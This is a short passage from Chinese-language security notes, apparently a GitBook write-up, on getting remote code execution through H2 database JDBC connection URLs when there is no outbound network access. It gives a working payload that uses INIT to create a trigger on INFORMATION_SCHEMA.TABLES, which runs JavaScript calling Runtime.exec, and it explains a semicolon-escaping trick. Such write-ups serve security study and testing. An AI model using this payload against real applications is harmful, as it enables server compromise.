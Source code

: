 ![image-20230810170824027](./../.gitbook/assets/image-20230810170824027.png)

(URL远程加载)

## 不出网利用——init+groovy

JDBC连接时`INIT`只允许执行一条SQL命令，而我们的命令执行有两句，一句创建UDF，一句执行UDF

除非有已知表，使用`CREATE TRIGGER`就只需一句。实际上可以利用H2的系统表，H2和MySQL一样也有`INFORMATION_SCHEMA`

> The system tables and views in the schema `INFORMATION_SCHEMA` contain the meta data of all tables, views, domains, and other objects in the database as well as the current settings.

```
jdbc:h2:mem:test;init=CREATE TRIGGER TRIG_JS AFTER INSERT ON INFORMATION_SCHEMA.TABLES AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("calc")'
```

需要注意的是，H2提取URL中的配置时是通过分割分号`;`来提取的，~~因此JS代码中不能有分号，否则会报错~~（可以加上反斜杠代表转义）
